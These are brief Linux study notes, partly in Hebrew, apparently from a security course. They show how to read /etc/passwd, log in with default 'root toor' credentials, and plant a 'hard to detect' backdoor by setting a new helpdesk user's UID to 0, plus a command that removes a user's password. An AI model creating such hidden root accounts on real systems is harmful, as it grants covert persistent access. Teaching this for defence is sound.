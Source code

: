 cat /etc/passwd

login
root toor
exit

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

backdoor vulnerability:
assiging a user with 0 id makes him root - hard to detect...

useradd -m username -s /bin/bash
passwd username // assign pass to user

passwd -d user // no pass

תצורו את המשתמש helpdesk ואל תשכחו להגדיר למשתמש תיקיית בית.
2 .הכניסו את המשתמש לקבוצת sudo.
3 .בצעו את הפקודה
sudo vi /etc/passwd
4 .שנו את ה-id של המשתמש helpdesk ל-0 והתחברו למשתמש

useradd -m helpdesk -d /helpdesk -s /bin/bash
adduser helpdesk sudo
sudo vi /etc/passwd
